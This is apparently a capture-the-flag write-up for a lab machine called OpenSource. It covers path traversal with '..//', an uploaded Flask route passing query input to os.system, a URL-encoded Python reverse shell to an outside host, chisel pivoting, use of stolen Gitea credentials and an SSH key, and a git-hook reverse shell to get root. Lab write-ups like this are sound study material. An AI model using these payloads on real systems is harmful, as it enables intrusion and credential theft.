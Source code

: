 # OPENSOURCE
### User flag

As always nmap tcp port scan

```shell
$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.164 -oN allports
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 62
3000/tcp filtered ppp     no-response
```

Then I visited the website played with the upload files subdomain and found some errors that indicated that the flask application was in debug mode, so to make sure I fuzzed the visited and found what I expected.

```shell
$ ffuf -w ~/wordlist/directory-list-2.3-big.txt:FUZZ -u http://10.10.11.164/FUZZ -v -o fuzzdir

[Status: 200, Size: 2489147, Words: 9473, Lines: 9803, Duration: 124ms]
| URL | http://10.10.11.164/download
    * FUZZ: download

[Status: 200, Size: 1563, Words: 330, Lines: 46, Duration: 48ms]
| URL | http://10.10.11.164/console
    * FUZZ: console

```

The console was protected by a pin so I did some research to see if there was anyway to crack it and found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug). I needed someway to get a LFI to hack the console.
Eventually by reading the source code I found some protection against *../* but not against *..//* in utils.py

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
So via BurpSuite I changed the name of the file to ..//..//..//..//etc/passwd and I was able to download the file

```
GET /uploads/..//..//..//..//etc/passwd HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
```

 Next I tried cracking into the console but I came to the conclusion it was a rabbit hole since it was impossible for me to crack the PIN. However I thought that if I could manipulate the GET request I could also do it with the POST request and change the python code. So I added a bit of code to views.py

```python
@app.route('/dasor')
def rce():
    return os.system(request.args.get('cmd'))
```

And uploaded it with a POST requests

```
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12202201532330092291110617912
Content-Length: 1008
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1

-----------------------------12202201532330092291110617912
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python
...
```

Then I went to the domain I had just created and started a reverse shell

```
http://10.10.11.164/dasor?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.0.1%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

But I was not a user on the system I was root but ... in a container. At that point I remebered that port number 3000 so I tried to use chisel for port forwarding. Also I had to compile it staticly to use it in the container. I uploaded the binary through the page and fowarded the port

```shell
#on kali
$ chisel server -p 7777 --reverse
#on victim
$ ./chisel client 10.10.14.74:7777 R:3000:172.17.0.1:3000
```

The port contained gitea with a user called dev01 I found his credentials on the .git folder that comes with the source code on the brach dev. Once we login we find his ssh key so I copied it to my machine and logged via ssh.

### Root flag

As always I used linepeas but this time it did not found anything critical. I realised that the user had a git directory in his home but I did not found any clue until I tiped git log once again and saw another new commit. Was someone else on the machine or was it automatic?. To clear that doubt I uploaded and used pspy64 and found out every minute a commit was made.

Firstly I checked on crontab but it was empty so I did some research and found you can schedule git commands inside the .git/hooks so I looked inside and found a lot of files and added a reverse shell to one of them, one minute later I was root.

I later found out that you were supposed to go into the folder by yourself and delete the .sample that the files had since with the .sample they do not get executed. However in my instance someone already did it.
